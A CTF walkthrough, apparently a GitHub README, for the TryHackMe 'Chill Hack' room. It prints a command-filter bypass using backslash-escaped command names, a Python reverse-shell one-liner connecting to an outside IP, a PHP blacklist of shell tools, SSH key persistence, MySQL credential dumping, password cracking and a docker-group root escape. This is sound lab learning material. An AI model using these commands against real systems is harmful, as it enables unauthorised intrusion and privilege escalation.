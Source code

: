# Chill Hack CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Chill Hack** CTF challenge on [TryHackMe](https://tryhackme.com/room/chillhack). 
---

scan

![scan](img/scan.png "scan")

found ftp server with anonymous login

![ftp](img/ftp.png "ftp")

got note.txt

![note](img/note.png "note")

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

found a lot of hidden folders with feroxbuster

![ferox](img/ferox.png "ferox")

`/secret` stands out from rest

we have some command execution, testing with id command (we are `www-data`)

![id](img/id.png "id")

after inputing `$ cat /etc/passwd` or `$ cd / ; ls` we are asked if we are hackers?  we know from that there is filtering on strings being put in commands

![hacker](img/hacker.png "hacker")

i tried few different techniques, `l\s` worked so ls is probably filtered, we also can use cd without filtering, `c\at index.php` also worked (I used BurpSuite)

now we know exactly what commands are on blacklist: 

```php
$blacklist  = array('nc','python','bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```

using `l\s /home` we know about users: `anurodh apaar aurick`

![home](img/home.png "home")

I also checked apaar home /folder with `l\s -la /home/apaar`

![homeapaar](img/homeapaar.png "homeapaar")

i tried diffrent reverse shells and this one worked for me (we have to change python3 to `p\ython3` because python3 is on blacklist) 

```
p\ython3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.91.59",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
now we have shell as `www-data`

![wwwdata](img/wwwdata.png "wwwdata")

I ran linpeas to check for PE vector, we see that we can run `.helpline.sh` as apaar without password, this command sholud execute the script, then we need to specify a person (here we can input anything) and then we can input `/bin/bash` to spawn a shell as apaar

![sudol](img/sudol.png "sudol")

```
sudo -u apaar /home/apaar/.helpline.sh
```
we got user flag

![apaar](img/apaar.png "apaar")

i generated ssh key to make logging easier as apaar

```
$ ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N ""
$ cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

i started looking around, decided to look into web page files to check if i missed something

in `/var/www/files` there is index.php file containing info about mysql login

![index](img/index.png "index")

used `mysql -u root -p` to log with provided password then

```
$ SHOW databases;
$ USE webportal;
$ SHOW tables;
$ SELECT * FROM users;
```
![sql](img/sql.png "sql")

used crackstation to crack hashes

![crack](img/crack.png "crack")

now i was stuck

i found info that i should use steganography

so i downloaded image `hacker-with-laptop[...].jpg` and used steghide without password

```
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

we got `backup.zip` but its password protected i tried to use one from cracked hashes but didnt work so decided to crack with john

![john](img/john.png "john")

we got another password in file `cource_code.php` but first we need to decode from base64 `IWQwbnRLbjB3bVlwQHNzdzByZA==`

![sourcecode](img/sourcecode.png "sourcecode")

```
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```


finally we got access as anurodh

![anurodh](img/anurodh.png "anurodh")

i used linpeas once again and found that user anurodh is in docker group (95% PE factor) so i checked GTFObins, we can use this one-liner to gain root access

![linpeas](img/linpeas.png "linpeas")

![gtfo](img/gtfo.png "gtfo")

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

we gained root access and root flag

![root](img/root.png "root")

## MACHINE PWNED


